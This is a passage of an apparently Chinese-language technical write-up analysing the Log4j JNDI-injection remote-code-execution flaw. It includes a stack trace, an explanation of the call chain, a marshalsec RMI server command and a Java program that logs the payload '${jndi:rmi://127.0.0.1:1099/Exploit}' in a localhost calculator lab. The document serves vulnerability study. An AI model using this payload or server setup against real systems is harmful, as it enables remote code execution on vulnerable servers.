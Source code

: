 ```java
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:11, log4j
```
可以较清晰地分析出来程序进入执行 logger.error，然后在 log 中逐层调用最终调用到 resolveVariable 即处理 ${} 变量，然后调用到了 Interpolator 的 lookup 方法，其中寻找到了 JndiLookup 类，调用其 lookup 方法，从 LDAP 服务获取类，然后从中 getObjectInstance，这里会进行 loadClass 操作，而其中调用了 Exploit 类隐藏的 clinit 方法也就是静态代码，造成 RCE。

### RMI 实现

RMI 的实现类似 LDAP，Exploit 类同样使用调用计算器的代码，通过 python 开启 HTTP 服务提供给 RMI。然后同样通过 marshalsec 来搭建 RMI 服务（默认端口在 1099）：
```shell
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
    marshalsec.jndi.RMIRefServer "http://127.0.0.1:8888/#Exploit"
```
略修改一下 log4j 漏洞应用，使之记录 ${jndi:rmi://127.0.0.1:1099/Exploit}：
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:rmi://127.0.0.1:1099/Exploit}");
    }
}
```